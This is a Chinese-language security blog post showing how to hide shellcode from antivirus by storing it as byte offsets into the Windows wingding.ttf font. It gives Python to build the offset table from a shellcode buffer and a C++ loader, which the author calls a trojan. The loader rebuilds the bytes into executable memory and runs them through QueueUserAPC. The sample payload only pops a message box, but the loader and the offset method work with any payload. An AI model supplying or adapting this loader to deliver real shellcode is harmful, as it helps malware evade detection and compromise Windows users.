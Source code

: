 # WhiteFile Offset Table Generate Shellcode

## 简介

这篇文章是我还比较菜的时候\(虽然现在也很菜\)，当时看到的时候惊为天人，大概说可以通过计算shellcode需要字符在白文件中的偏移位置，通过记录偏移位置，在不硬编码的情况下还原出shellcode，今天突然想起来，就复现一下。

## 流程

1. 寻找一个全windows都包含且不变的文件\(C:\Windows\Fonts\wingding.ttf\)
2. 遍历文件确认存在全字符\(0x00-0xff\)
3. 计算shellcode在文件内的偏移表
4. 基于便宜表还原shellcode



## 代码

计算偏移表的代码是用py写的，不是专业写算法的，这个计算可能比较low。

```text

dict = open('wingding.ttf','rb+').read();
char =0
for i in range(256):
        for p in range(len(dict)):
                if  ord(chr(dict[p])) == ord(chr(i)):
                        char +=1
                        print(char)
                        break

if char == 256:print("this file has full chars table");
```

![](../.gitbook/assets/image%20%28151%29.png)

通过一段已有的shellcode生成偏移表，我们古典主义脚本小子还是比较喜欢弹个窗。

```text

dict = open('wingding.ttf','rb+').read();

buf =  b""
buf += b"\xd9\xeb\x9b\xd9\x74\x24\xf4\x31\xd2\xb2\x77\x31\xc9"
buf += b"\x64\x8b\x71\x30\x8b\x76\x0c\x8b\x76\x1c\x8b\x46\x08"
buf += b"\x8b\x7e\x20\x8b\x36\x38\x4f\x18\x75\xf3\x59\x01\xd1"
buf += b"\xff\xe1\x60\x8b\x6c\x24\x24\x8b\x45\x3c\x8b\x54\x28"
buf += b"\x78\x01\xea\x8b\x4a\x18\x8b\x5a\x20\x01\xeb\xe3\x34"
buf += b"\x49\x8b\x34\x8b\x01\xee\x31\xff\x31\xc0\xfc\xac\x84"
buf += b"\xc0\x74\x07\xc1\xcf\x0d\x01\xc7\xeb\xf4\x3b\x7c\x24"
buf += b"\x28\x75\xe1\x8b\x5a\x24\x01\xeb\x66\x8b\x0c\x4b\x8b"
buf += b"\x5a\x1c\x01\xeb\x8b\x04\x8b\x01\xe8\x89\x44\x24\x1c"
buf += b"\x61\xc3\xb2\x08\x29\xd4\x89\xe5\x89\xc2\x68\x8e\x4e"
buf += b"\x0e\xec\x52\xe8\x9f\xff\xff\xff\x89\x45\x04\xbb\x7e"
buf += b"\xd8\xe2\x73\x87\x1c\x24\x52\xe8\x8e\xff\xff\xff\x89"
buf += b"\x45\x08\x68\x6c\x6c\x20\x41\x68\x33\x32\x2e\x64\x68"
buf += b"\x75\x73\x65\x72\x30\xdb\x88\x5c\x24\x0a\x89\xe6\x56"
buf += b"\xff\x55\x04\x89\xc2\x50\xbb\xa8\xa2\x4d\xbc\x87\x1c"
buf += b"\x24\x52\xe8\x5f\xff\xff\xff\x68\x6f\x78\x58\x20\x68"
buf += b"\x61\x67\x65\x42\x68\x4d\x65\x73\x73\x31\xdb\x88\x5c"
buf += b"\x24\x0a\x89\xe3\x68\x58\x20\x20\x20\x68\x4d\x53\x46"
buf += b"\x21\x68\x72\x6f\x6d\x20\x68\x6f\x2c\x20\x66\x68\x48"
buf += b"\x65\x6c\x6c\x31\xc9\x88\x4c\x24\x10\x89\xe1\x31\xd2"
buf += b"\x52\x53\x51\x52\xff\xd0\x31\xc0\x50\xff\x55\x08"

char=0
offsettable=[];
for i in range(len(buf)):
	for p in range(len(dict)):
		if  ord(chr(dict[p])) == ord(chr(buf[i])):
			offsettable.append(p)
			break

#生成偏移表
if char == len(buf):print("shellcode offset tables generate success");
print(offsettable)

#测试还原shellcode
shellcode=[]
for i in offsettable:
	shellcode.append(dict[i])
```

![](../.gitbook/assets/image%20%28154%29.png)

可以还原出来，现在我们在c++把木马写出来。

```text
#include <stdio.h>
#include <Windows.h>



int main()
{	
	DWORD dwReadSize=0;
	HANDLE hFile = CreateFileA("C:\\Windows\\Fonts\\wingding.ttf", GENERIC_READ, OPEN_EXISTING, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
	DWORD dwSize = GetFileSize(hFile, NULL);
	PCHAR pDict = (PCHAR)VirtualAlloc(NULL, dwSize, MEM_COMMIT, PAGE_READWRITE);
	PCHAR lpBuffer = (PCHAR)VirtualAlloc(NULL, 0x1000, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	ReadFile(hFile, pDict, dwSize, &dwReadSize, NULL);

	
	DWORD offsets[] = { 2741, 2231, 2569, 2741, 65, 203, 113, 48, 2899, 2707, 825, 48, 2845, 157, 2473, 2317, 11, 2473, 93, 363, 2473, 93, 282, 2473, 2059, 128, 2473, 2395, 95, 2473, 155, 146, 17, 1783, 2341, 64, 2173, 1, 629, 288, 19, 2215, 2473, 141, 203, 203, 2473, 2053, 83, 2473, 29, 549, 159, 1, 2255, 2473, 547, 1783, 2473, 2179, 95, 1, 2231, 721, 745, 14, 2473, 745, 2473, 1, 160, 48, 288, 48, 557, 135, 573, 645, 557, 65, 358, 2797, 387, 1717, 1, 82, 2231, 113, 80, 227, 203, 549, 2341, 19, 2473, 2179, 203, 1, 2231, 108, 2473, 363, 2089, 2473, 2179, 282, 1, 2231, 2473, 9, 2473, 1, 2315, 211, 12, 203, 282, 78, 2809, 2707, 128, 1885, 263, 211, 2399, 211, 2803, 156, 195, 2107, 421, 176, 2131, 2315, 1041, 288, 288, 288, 211, 2053, 9, 2761, 2395, 2771, 407, 126, 597, 282, 203, 2131, 2315, 195, 288, 288, 288, 211, 2053, 128, 156, 141, 141, 95, 1405, 156, 833, 47, 1915, 157, 156, 2341, 126, 173, 301, 11, 1421, 219, 151, 203, 131, 211, 43, 59, 288, 2149, 9, 211, 2803, 355, 2761, 2647, 2611, 62, 75, 597, 282, 203, 2131, 2315, 123, 288, 288, 288, 156, 221, 159, 63, 95, 156, 78, 110, 173, 209, 156, 62, 173, 126, 126, 48, 1421, 219, 151, 203, 131, 211, 721, 156, 63, 95, 95, 95, 156, 62, 13, 2059, 649, 156, 301, 221, 77, 95, 156, 221, 1903, 95, 108, 156, 31, 173, 141, 141, 48, 2845, 219, 28, 203, 23, 211, 19, 48, 2899, 2131, 13, 2125, 2131, 288, 258, 48, 557, 355, 288, 2149, 128 };
	for (int i = 0; i < sizeof(offsets)/sizeof(DWORD); i++)
	{
		lpBuffer[i] = pDict[offsets[i]];
	}
	

	HANDLE hThread = CreateThread(0, 0, (LPTHREAD_START_ROUTINE)0xfff, 0, CREATE_SUSPENDED, NULL);
	QueueUserAPC((PAPCFUNC)lpBuffer, hThread, 0);
	ResumeThread(hThread);
	WaitForSingleObject(hThread, INFINITE);

	CloseHandle(hThread);
	CloseHandle(hFile);
	return 0;
}
```

可以看到还原出了shellcode。

![](../.gitbook/assets/image%20%28150%29.png)

![](../.gitbook/assets/image%20%28152%29.png)

脚本小子的任务完成了。

## LINKS

{% embed url="https://www.freebuf.com/articles/system/190740.html" %}



